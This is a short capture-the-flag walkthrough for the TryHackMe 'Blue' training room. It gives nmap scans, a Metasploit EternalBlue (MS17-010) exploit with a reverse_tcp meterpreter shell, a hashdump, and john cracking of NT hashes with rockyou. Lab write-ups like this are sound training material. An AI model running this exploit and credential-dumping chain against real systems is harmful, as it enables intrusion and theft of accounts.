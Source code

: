 # Blue

**Room Link:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## **Walkthrough**

### **Recon**

```
nmap -A 10.10.68.22
```

<img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" data-size="original">

The box is vulnerable to ms17-010

```
nmap -p135,139,445,3389 --script=vuln 10.10.68.22
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Gain Access / Escalate

```
msfconsole 
search eternalblue 
use exploit/windows/smb/ms17_010_eternalblue 
set payload windows/x64/meterpreter/reverse_tcp 
set RHOSTS 10.10.68.22 
run
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Cracking

```
hashdump
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

<figure><img src="../../.gitbook/assets/image (3) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flags

Just ran this to find the locations of all the flags then grabbed them

```
cd C:\
dir "flag*" /s
```

<figure><img src="../../.gitbook/assets/image (5) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>
